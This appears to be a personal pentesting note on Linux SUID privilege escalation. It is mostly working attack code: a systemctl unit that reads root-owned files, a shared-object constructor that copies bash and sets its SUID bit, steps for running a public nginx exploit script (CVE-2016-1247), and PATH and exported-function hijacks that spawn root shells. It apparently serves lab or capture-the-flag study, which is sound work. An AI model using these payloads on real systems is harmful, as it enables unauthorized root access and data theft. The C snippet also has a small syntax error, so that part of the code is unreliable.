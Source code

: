 -- -
Abuse software that is vulnerable to being hijacked to run a shell command or file read or something it shouldn't because it has its SUID bit set and runs as root always. 
### General workflow
#### Enum
![[SUIDs#^ed7f08]]
#### Find Exploits
Go to [GTFOBins](https://gtfobins.github.io/#+suid) and search the output of above command. 

### Things I've Exploited
#### systemctl
#sytemctlexploit It is a file read exploit, so you won't get a shell, but you can read any file root can. 
```bash
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output # outputs the file you wanted to read
```
### Shared Object Injection

^2ec112

#SOInjection 
#### Enum
![[SUIDs#^8b428f]]
#### Exploit
```bash
# So this will be an example, the specifics in your situation will depend on the situation you are in. 

# in this example, it was looking for the file:
# /home/user/.config/libcalc.so
# .config nor libcalc.so exist at those locations, so we will make the directory and create some C code that will hijack execution when suid-so picks it up
cd /home/user
mkdir .config
cd .config
vim libcalc.c
```
**libcalc.c**
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```
#### Compile and exploit
```bash
# Compile to the expected location with the expected file
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c

# run original suid program
/usr/local/bin/suid-so
```

#### CVE-201601247
#cve-2016-1247  [Explanation](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html), If certain conditions are met, a user www-data is able to escalate privileges to root. 
[[SUIDs#^14400b|Enum]]
##### Exploit
Assuming enum was done and the conditions are right, download script from [here](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) , and [[Dark Arts/File Transfer/Linux|file transfer]] it to the target, then simply run the script: 

```bash
./nginxed-root.sh /var/log/nginx/error.log

# then you need to wait for the nginx service to be restarted, or it can manually be done by root, ssh as root into server:
invoke-rc.d nginx rotate >/dev/null 2>&1

# obviously if you already have root to force it, this is useless so practically, you will need to sit and wait for nginx to restart for some other reason. 
```

#### Env Variables

^460797

This relies on weird/custom porgrams with suid bit set, there are 2 examples worked out here for two situations
1. Relative path used
2. Absolute path used

Which is used is determined through [[SUIDs|Enum]]
##### Relative Path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash 
# in this example, the output from strings revealed:
# service apache2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case, you can add to your $PATH and set a location you control to the front of your path, and write a program named "service" there so that when the SUID program is run, it calls to your malicious program rather than the real service program since it will check your controlled folder first. Since the calling program is root, that means your program will be run as root.

# so, write a program that spaws a shell then run SUID program

# Prepare malicious program and output to a directory you control
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c

# compile
gcc /tmp/service.c -o /tmp/service

# add your controlled directory to front of $PATH
export PATH=/tmp:$PATH

# run SUID program
/usr/local/bin/suid-env

# now you should have a root shell.
```

##### Absolute path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash
# in this example, the output from strings revealed:
# /usr/sbin/service apach2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case you will create a malicious function and make a symlink to it so that it's picked up by the vulnerable SUID program.

# Create malicious function
# malicious function copies /bin/bash to a controlled directory
# then, malicious function adds suid bit to copy of /bin/bash
# then, malicious function runs the copy of /bin/bash
# since the suid bit was set, it will be a root shell.
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

# set service program to refer to shell function, our malicious function, rather than running the actual program:
export -f /usr/sbin/service

# then just run the vulnerable suid program
/usr/local/bin/suid-env
```